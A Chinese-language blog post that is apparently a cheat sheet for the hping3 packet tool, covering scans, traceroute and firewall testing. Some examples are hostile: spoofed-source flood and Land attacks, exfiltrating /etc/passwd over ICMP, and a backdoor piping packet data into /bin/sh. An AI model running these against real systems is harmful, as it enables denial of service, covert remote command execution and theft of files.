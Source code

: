```yaml
---
title: hping3, 强大的发包工具 
date: 2020-05-09 14:18:44
categories:
- Linux
tags:
- commands
thumbnail: /gallery/hping.jpeg
---
```

# 

hping3可以发送自定义TCP/IP数据包，然后像ping一样展示响应。你可以使用hping3实现下面的一些工作：

+ 测试防火墙规则
+ 高级端口扫描
+ 通过协议类型、包大小、服务类型(TOS, type of service)和IP分片来测试网络性能
+ 探测MTU路径
+ 路由跟踪
+ 远程操作系统探测
+ TCP/IP栈审计

默认情况下，hping3发送TCP headers到目标主机的0端口，winsize设置为64，没有启用任何tcp flag。通常情况下，这是最好的隐藏ping(hide ping)实现方式，一个没有标志(null-flag)的tcp发送到0端口，有很大的可能不会被记录(logged)。

扫描模式：
```
-0, --rawip,    RAW IP mode, 此模式下hping会发送带数据的IP头
-1, --icmp,     ICMP mode, 发送ICMP echo-request，
                    可以使用--icmptype和--icmpcode选项配置icmp的type/code
-2, --udp,      UDP mode, 发送udp报文到主机的0端口
-8, --scan,     Scan mode, 端口扫描，需要接一个指定端口的参数
                    1,2,3   1-1000   all (代表0-65535)   1-1000,8888
                    known (/etc/services定义的端口)   !known
-9, --listen signature,    listen mode, 接收指定的数据
```

## TCP Scans

### TCP flags

```
-S, --syn    flags=SYN
-A, --ack    flags=ACK
-R, --rst    flags=RST
-F, --fin    flags=FIN
-P, --push   flags=PUSH
-U, --urg    flags=URG
-X, --xmas   flags=Xmas
-Y, --ymas   flags=Tmas
```

### 示例

```
# -c, 发送包数量
# -S, SYN tcp flag
hping3 -S 8.8.8.8 -p 80 -c 1

# 从80端口开始自增
hping3 -S 4.2.2.1 -p ++80 | grep SA

# 扫描多个端口
hping3 -8 50-56 -S 4.2.2.1

# ACK
hping3 -A 8.8.8.8 -p 80 -c 1

hping3 -F -P -U 8.8.8.8 -p 80 -c 1
```

## hping3使用示例

```
# udp
hping3 -2 192.168.1.1 -p 80 -c 1

# icmp
# -C 13相当于--icmp-ts, timestamp request
# -C 17相当于--icmp-addr, address mask request
hping3 -1 192.168.1.1 -C 13

# ping失效后的主机检测
# -i, --interval, 发送每个包之前等待的时间, 默认为1秒
# -i u10000, 等待10000微秒(micro seconds)
hping3 -c 4 -n -i 2 192.168.1.1

# -Q, --seqnum
hping3 192.168.1.103 -Q -p 139 -S

# 拦截流量
hping3 -9 HTTP -I eth0
hping3 -9 "http://www.google.com/search?" --beep -I eth0

# 文件传输
## 接收端
hping3 -1 192.168.1.100 -9 signature -I eth0
## 发送端, -d, --data, 设置发送包的大小; -E, --file, 使用文件内容填充包数据
hping3 -1 192.168.1.101 -e signature -E /etc/passwd -d 2000

# -T, --traceroute, 数据包跟踪
# -V, --verbose
hping3 -T -V -1 www.baidu.com
# --tr-keep-ttl, 不更改ttl
hping3 -S 64.233.167.99 -p 80 -T --ttl 15 --tr-keep-ttl -n

# firewall/ids testing
hping3 -S 72.14.207.99 -p 80 --tcp-timestamp

# 以Land Attack方式测试目标防火墙
# Land Attack时将发送源地址设置为与目标地址相同，诱使目标机与自己不停地建立连接
hping3 -S -c 1000000 -a 10.10.10.10 -p 21 10.10.10.10

# 小后门
hping3 -I eth0 -9 secret | /bin/sh
hping3 -R 192.168.1.100 -e secret -E commands_file -d 100 -c 1

# --flood, 以泛洪的方式攻击
# -a 伪造来源ip
hping3 -S 192.168.1.1 -a 192.168.1.254 -p 22 --flood
hping3 -S 192.168.1.101 -a 192.168.1.101 -k -s 135 -p 135 --flood
hping3 -A -S -P -U 66.66.66.66 -k -s 80 -p 80 -a 192.168.1.1

# fuzzing
hping3 -2 4.2.2.1 -p ++44444 -T -n
hping3 -S 4.2.2.1 -p 53 -T

# Local Privilege Escalation
hping3> id uid=0(root) gid=0(root) groups=0(root)

# 主机扫描
for addr in $(seq 1 254); do hping3 192.168.1.$addr -c 1 --icmp & done
```
